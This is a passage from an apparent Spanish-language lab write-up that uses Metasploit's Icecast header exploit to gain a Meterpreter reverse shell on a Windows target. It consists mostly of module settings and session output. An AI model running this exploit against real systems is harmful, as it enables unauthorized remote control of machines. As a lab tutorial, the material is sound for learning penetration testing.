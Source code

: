 Vamos a configurar el exploit con la IP destino y la IP de nuestra máquina.

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.100.210  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/icecast_header) > set RHOSTS 10.10.19.146
RHOSTS => 10.10.19.146
msf6 exploit(windows/http/icecast_header) > set LHOST 10.8.17.92
LHOST => 10.8.17.92
```

Ahora para poder ejecutar el exploit debemos invocar el comando `run`

```bash
msf6 exploit(windows/http/icecast_header) > run
[*] Started reverse TCP handler on 10.8.17.92:9000 
[*] Sending stage (177734 bytes) to 10.10.19.146
[*] Meterpreter session 1 opened (10.8.17.92:9000 -> 10.10.19.146:49233) at 2025-01-29 17:38:24 +0100

meterpreter > getuid
Server username: Dark-PC\Dark
```
## Información sobre el servidor
